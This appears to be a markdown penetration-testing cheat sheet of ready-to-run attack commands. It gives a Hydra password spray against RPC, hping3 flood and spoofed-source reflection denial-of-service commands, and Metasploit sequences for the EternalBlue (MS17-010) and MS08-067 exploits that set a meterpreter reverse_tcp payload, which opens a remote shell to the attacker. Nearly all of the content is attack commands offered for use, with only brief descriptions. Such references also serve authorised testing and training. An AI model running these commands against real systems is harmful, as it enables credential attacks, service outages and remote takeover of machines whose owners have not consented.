 #### Password Spray

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra rpc://<target_ip> -s 111 -l <username_list> -P <password>
    ```
* **Description:** Test a multiple usernames against a single password.

### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p <target_port> --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

#### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p <target_port> --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

### Exploits

#### MS17-010 (EternalBlue)

*   **Tool:** \[\[Metasploit]], \[\[Custom Scripts]]

    ```bash
    use exploit/windows/smb/ms17_010_eternalblue
    set PAYLOAD windows/meterpreter/reverse_tcp
    set RHOST <target_ip>
    run
    ```
* **Description:** Exploits a vulnerability in Microsoft's implementation of the SMB protocol that could allow remote code execution. This exploit was used in the WannaCry ransomware attack.

#### MS08-067 (Conficker Worm)

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/windows/smb/ms08_067_netapi
    set PAYLOAD windows/meterpreter/reverse_tcp
    set RHOST <target_ip>
    run
    ```
* **Description:** Exploits a vulnerability in the Server service's handling of RPC requests, allowing for remote code execution.
